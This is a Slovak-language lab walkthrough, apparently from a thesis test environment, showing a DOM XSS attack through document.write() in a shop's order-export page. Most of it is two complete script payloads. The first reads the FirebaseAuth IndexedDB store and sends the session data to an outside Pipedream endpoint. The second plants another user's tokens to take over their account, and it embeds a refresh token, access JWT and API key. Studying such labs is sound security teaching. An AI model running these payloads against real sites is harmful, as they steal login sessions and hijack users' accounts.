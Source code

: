 # Document objcet model cross site scripting (DOM XSS)

### Prostredie: Dp-Test-Enviroment - https://github.com/MatusVetrik/dp-test-enviroment

- Teraz si predstavíme DOM XSS na príklade vygenerovania exportu objednávky do novéhe tabu prehliadača pomocou metódy document.write().
- Metóda document.write() prepisuje celú kostru stránky a generuje novú pomocou argumentu vloženého do metódy. Týmto spôsobom sa dajú jednoducho a automatizovane generovať nové stránky alebo upravovať už existujúce.
- Problém nastáva, keď sa do argumentu vloží vrátane rôznych tagov aj škodlivý kód. Škodlivý kód je priamo vložený do tela stránky.
- Ako môžeme vidieť v testovacom prostredí, tak obrayovka obsahuje input kam zapisujeme názov exportu našej objednávky a tlačidlo na vygenerovanie exportu.
- Ako prvé sa presunieme na podstránku produktov a vložíme ľubovoľné produkty do košíka.
- Keď máme košík naplnený produktami môžeme zmeniť alebo ponechať názov exportu a kliknúť na tlačidlo “Export”.
- Vygeneroval sa nám jednoduchý export objednávky na novom tabe. Ako môžeme vidieť názov exportu je vpísaný ako nadpis nad jednotlivými položkami košíka. Hodnota z inputu je priamo vložené do 
  tela novej stránky čím vzniká zraniteľnosť a priestor na vloženie škodlivého kódu.
- Zopakujme si proces generovania exportu ale teraz vložíme škodlivý kód do inputu pre názov exportu.
- Vložme nasledovný úryvok kódu do inputu:
- ```
      <script>
      const request = window.indexedDB.open("firebaseLocalStorageDb");
      request.onsuccess = (event) => {
        const db = event.target.result;

        const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
        const objectStore = transaction.objectStore("firebaseLocalStorage");

        const getDataRequest = objectStore.getAll();

        getDataRequest.onsuccess = (event) => {

        const headers = new Headers();
        headers.append("Content-Type", "text/plain");

        const options = {
          method: "POST",
          headers,
          mode: "cors",
          body: JSON.stringify(event.target.result),
        };

        fetch("https://eojph9o2kgja7k2.m.pipedream.net", options);
        }
      };
      </script>
- Ukážkový kód sprístupní lokálnu databázu prehliadača (indexDB), ktorú autentifikačný servis FirebaseAuth využíva na uchovávanie dát o prihlásenom používateľovi. 
  Vytiahneme dáta z databázy a celý objekt si odošleme na náš vygenerovaný endpoint v službe Pipedream (https://pipedream.com/).
- Po vygenerovaní exportu môžeme vidieť, že názov exportu je prázdny a spustil sa náš škodlivý kód. Na endpoint by nám mal prísť celý objekt s dátami.
- Odhlásime sa z aplikácie a opätovne sa prihlásisme pod iným účtom, buď existujúcim alebo si vytvoríme nový.
- Po prihlásení využijeme spomínanú zraniteľnosť znova a vložíme do lokálnej databázy dáta užívateľa, čím prelomíme autentifikáciu a prihlásime sa do iného účtu.
- Kód na vloženie používateľských dať vyzerá nasledovne:
     ```<script>
      const request = window.indexedDB.open("firebaseLocalStorageDb");
      request.onsuccess = (event) => {
        const db = event.target.result;

        const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
        const objectStore = transaction.objectStore("firebaseLocalStorage");

        const data = {
          fbase_key:
            "firebase:authUser:AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg:[DEFAULT]",
          value: {
            uid: "RTejhfCWw0OAlHcoAj41Fy93ZJJ3",
            email: "mate@gmail.com",
            emailVerified: false,
            isAnonymous: false,
            providerData: [
              {
                providerId: "password",
                uid: "mate@gmail.com",
                displayName: null,
                email: "mate@gmail.com",
                phoneNumber: null,
                photoURL: null,
              },
            ],
            stsTokenManager: {
              refreshToken:
                "AMf-vByIsfsiw-8vT6jzvFkIqMjZhSvTzJ16dCdww3w_Pk_9kwwfanAaW09W-DWc70KzKjxtp7Dq7aEPRImKkgLIHiCN4ROLsi5NBpvQrRSNGonNI-5wt_
                  9PHITM0bt5ZXSayEMzx7dRUHJdj8-lbwiflyUREJh3TUy-QLmoxyg3rY-G6B1Ff1OQPTv-VRFJGmp3GQ2dJ5Bl0hyBKiELNwcjKDTrVyRjPw",
              accessToken:
                "eyJhbGciOiJSUzI1NiIsImtpZCI6ImJhNjI1OTZmNTJmNTJlZDQ0MDQ5Mzk2YmU3ZGYzNGQyYzY0ZjQ1M2UiLCJ0eXAiOiJKV1QifQ
    .eyJpc3MiOiJodHRwczovL3NlY3VyZXRva2VuLmdvb2dsZS5jb20vZGlwbG9tb3ZrYS10ZXN0LWFwcCIsImF1ZCI6ImRpcGxvbW92a2EtdGVzdC1hcHA
    iLCJhdXRoX3RpbWUiOjE3MTE3OTA0OTYsInVzZXJfaWQiOiJSVGVqaGZDV3cwT0FsSGNvQWo0MUZ5OTNaSkozIiwic3ViIjoiUlRlamhmQ1d3ME9BbE
    hjb0FqNDFGeTkzWkpKMyIsImlhdCI6MTcxMTc5MDQ5NiwiZXhwIjoxNzExNzk0MDk2LCJlbWFpbCI6Im1hdGVAZ21haWwuY29tIiwiZW1haWxfdmVyaWZ
    pZWQiOmZhbHNlLCJmaXJlYmFzZSI6eyJpZGVudGl0aWVzIjp7ImVtYWlsIjpbIm1hdGVAZ21haWwuY29tIl19LCJzaWduX2luX3Byb3ZpZGVyIjoicGFzc
    3dvcmQifX0.0Mp-T84dmzTpiAdVyhl68WV2qDvTZ78IHGYca5YpBgBx4A_m_YXoJ-IYBaTl-Yp-fXYzuKN3Vff0iqkNA5nVtUcOFfG1X157DrkE80gxp6e
    7ELg2jn_N6mF1Xw-jTSaJoAAsG8f3e_wHp-cfVqWyBNrcUTABrP8Hy_bv-iyUII60PZtjiu_oo7ObVFhoPEim82rlPJDLiwpPMos7qGEBsvw4-fKQvLPkR
    wkGbCf8bKt6Pn_jThtR9JPuhU_G2SlgppA0PuuLSyO8KViFoH4XgFMi9kyX3YU8vmg7O5bDwCYemLLpvQt4KY900_qQgxS2GnX89h_V-hNu_bGqQpL9Zg",
              expirationTime: 1711794096425,
            },
            createdAt: "1711388904315",
            lastLoginAt: "1711790496471",
            apiKey: "AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg",
            appName: "[DEFAULT]",
          },
        };

        objectStore.clear();

        const addDataRequest = objectStore.add(data);

        addDataRequest.onsuccess = (event) => alert("Success!");
      };
    </script>

- Teraz môžeme refreshnut stránku a ako môžeme vidieť v hlavičke stránky alebo po kliku na profil, že sme prihlásený pod iným účtom.

- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/dom-xss-write.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/dom-xss-write.mp4)